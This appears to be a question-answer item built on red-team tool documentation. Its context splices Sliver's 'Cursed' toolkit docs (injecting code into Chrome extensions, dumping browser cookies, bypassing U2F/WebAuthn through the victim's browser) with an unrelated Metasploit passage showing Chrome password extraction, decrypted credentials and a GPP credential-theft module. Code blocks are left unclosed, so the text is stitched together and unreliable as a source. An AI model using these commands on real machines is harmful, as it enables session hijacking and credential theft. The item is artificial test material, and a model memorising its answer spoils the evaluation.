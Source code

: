 Context:Cursed is a Chrome/Chromium/Edge/Electron post-exploitation tool kit introduced in Sliver v1.5.25, which integrates with [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome) (originally [Sliver Overlord](https://github.com/BishopFox/sliver-overlord)). It can automatically find existing Chrome Extensions with the required permissions for [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome) and remotely inject it onto the target system, or you can start an interactive REPL to inject arbitrary code into any Chrome/Chromium/Edge/Electron context.  
Since web requests and other activity originate from the target machine/browser instance, Cursed Chrome and the Cursed tool kit are excellent options for bypassing U2F/Webauthn, hardware attestation, and geo-IP restrictions in web applications.  
## Cursed Chrome  
The `cursed chrome` command can be used to restart a remote system's Chrome browser with remote debugging enabled. If no payload is specified using `--payload` the command will simply restart Chrome with remote debugging enabled, you can then use `cursed console` to interact with any debug target.  
If a payload is specified, the command will restart Chrome with remote debugging, enumerate installed browser extensions, determine if any extension has the required permissions for [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome), and inject the payload into the extension's execution context.  
So a typical workflow looks like:  
1. Setup [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome)
2. Pop Sliver session, or go interactive from a beacon
3. `cursed chrome --payload background.js`
4. Upstream browser to CursedChrome proxy
5. Enjoy!  
## Cursed Edge  
Works identically to `cursed chrome` but the UI displays "Edge" instead of "Chrome" much like Edge itself.  
## Cursed Electron  
The `cursed electron` command can be used to restart an Electron application with remote debugging enabled, you can subsequently use `cursed console` to interact with any debug target. Note that some Electron applications disable the remote debugging functionality, which will prevent this feature from working.  
## Cursed Console  
The `cursed console` command can be used to start an interactive REPL with any cursed process. You will need to start a cursed process using `cursed chrome`, `cursed edge`, or `cursed electron` before using `cursed console`. You can list cursed processes using the `cursed` command. ![cursed](/images/cursed-1.png)  
## Cursed Cookies  
Starting in v1.5.28 the `cursed cookies` command can be used to dump a remote cursed process' cookies to a local file (newline delimited json), for example:  
```
[server] sliver (CHRONIC_GOAT) > cursed chrome

...

[server] sliver (CHRONIC_GOAT) > cursed cookies

? Select a curse: 44199  [Session 56a5cd6f]  /Applications/Google Chrome.app/Contents/MacOS/Google Chrome

[*] Successfully dumped 437 cookies
[*] Saved to cookies-20220925182151.json

### Usage  
There are two ways to launch a Post module, both require an existing session.  
Within a msf prompt you can use the `use` command followed by the `run` command to execute the module against the required session. For instance to extract credentials from Chrome on the most recently opened Metasploit session:  
```msf
msf6 > use post/windows/gather/enum_chrome
msf6 post(windows/gather/enum_chrome) > run session=-1 verbose=true

[*] Impersonating token: 7192
[*] Running as user 'DESKTOP-N3MAG5R\basic_user'...
[*] Extracting data for user 'basic_user'...
[+] Downloaded Web Data to '/Users/user/.msf4/loot/20220422122125_default_192.168.123.151_chrome.raw.WebD_560928.txt'
[-] Cookies not found
[+] Downloaded History to '/Users/user/.msf4/loot/20220422122126_default_192.168.123.151_chrome.raw.Histo_861946.txt'
[+] Downloaded Login Data to '/Users/user/.msf4/loot/20220422122126_default_192.168.123.151_chrome.raw.Login_785667.txt'
[+] Downloaded Bookmarks to '/Users/user/.msf4/loot/20220422122127_default_192.168.123.151_chrome.raw.Bookm_612993.txt'
[+] Downloaded Preferences to '/Users/user/.msf4/loot/20220422122127_default_192.168.123.151_chrome.raw.Prefe_893631.txt'
[*] Found password encrypted with masterkey
[+] Found masterkey!
[+] Decrypted data: url:http://192.168.123.6/ helloworld:157746edfe6b4d369d7e656c00eeb5c8
[+] Decrypted data: url:https://www.example.com/ my_username:my_password_123
[+] Decrypted data saved in: /Users/user/.msf4/loot/20220422122129_default_192.168.123.151_chrome.decrypted_981698.txt
[*] Post module execution completed
msf6 post(windows/gather/enum_chrome) >  
Or within a Meterpreter prompt use the `run` command, which will automatically set the module's session value:  
```msf
msf6 > sessions --interact -1
[*] Starting interaction with 5...

meterpreter > run post/windows/gather/enum_applications

[*] Enumerating applications installed on DESKTOP-N3MAG5R

Installed Applications
======================

Name                                                                Version
----                                                                -------
7-Zip 21.07 (x64)                                                   21.07
Application Verifier x64 External Package                           10.1.19041.685
ClickOnce Bootstrapper Package for Microsoft .NET Framework         4.8.04162
DiagnosticsHub_CollectionService                                    16.1.28901
Docker Desktop                                                      2.2.0.4
... etc ..  
## Useful modules  
### Windows GPP Credentials  
This module enumerates the victim machine's domain controller and connects to it via SMB. It then looks for Group Policy Preference XML files containing local user accounts and passwords and decrypts them using Microsoft's public AES key. Cached Group Policy files may be found on end-user devices if the group policy object is deleted rather than unlinked  
```
use post/windows/gather/credentials/gpp
run session=-1
### Related Reading:  
- [[How to write a browser exploit using BrowserExploitServer]]

 Question: Provide only the commands to extract cookies using the cursed chrome and cursed cookies commands in Sliver. Exclude all explanations, output, and additional text.  

 Your response: 
```
[server] sliver (CHRONIC_GOAT) > cursed chrome
[server] sliver (CHRONIC_GOAT) > cursed cookies
```